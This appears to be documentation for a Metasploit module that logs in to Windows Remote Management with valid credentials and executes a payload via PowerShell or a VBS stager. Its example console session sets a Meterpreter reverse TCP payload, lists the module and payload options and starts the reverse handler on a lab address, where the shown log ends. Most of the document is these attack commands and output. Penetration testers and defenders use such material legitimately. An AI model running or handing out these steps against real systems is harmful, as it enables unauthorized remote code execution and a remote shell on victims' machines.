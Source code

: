 ## Vulnerable Application

Windows Remote Management (WinRM) is a feature of Windows Vista that allows administrators to remotely run management scripts. It handles remote connections by means of the WS-Management Protocol, which is based on SOAP (Simple Object Access Protocol).   This module uses valid credentials to login to the WinRM service and execute a payload. It has two available methods for payload delivery: Powershell 2.0 and VBS CmdStager. This module will check if Poweshell 2.0 is available, and if so then it will use that method. Otherwise it falls back to the VBS CmdStager which is less stealthy.
IMPORTANT: If targetting an x64 system with the Poweshell method, one must select an x64 payload. An x86 payload will never return. 
[EXPLOIT DB:] https://www.exploit-db.com/exploits/22526/
    


## Example Usage

```
msf exploit(handler) > use exploit/windows/winrm/winrm_script_exec
msf exploit(winrm_script_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(winrm_script_exec) > set USERNAME admin
USERNAME => admin
msf exploit(winrm_script_exec) > set PASSWORD admin
PASSWORD => admin
msf exploit(winrm_script_exec) > set LHOST 192.168.198.138
LHOST => 192.168.198.138
msf exploit(winrm_script_exec) > set LPORT 4444
LPORT => 4444
msf exploit(winrm_script_exec) > set RHOST 192.168.198.130
RHOST => 192.168.198.130
msf exploit(winrm_script_exec) > show options

Module options (exploit/windows/winrm/winrm_script_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DOMAIN     WORKSTATION      yes       The domain to use for Windows authentification
   FORCE_VBS  false            yes       Force the module to use the VBS CmdStager
   PASSWORD   admin            yes       A specific password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.198.130  yes       The target address
   RPORT      5985             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URI        /wsman           yes       The URI of the WinRM service
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   admin            yes       A specific username to authenticate as
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.198.138  yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows



msf exploit(winrm_script_exec) > run
[*] Started reverse TCP handler on 192.168.198.138:4444 


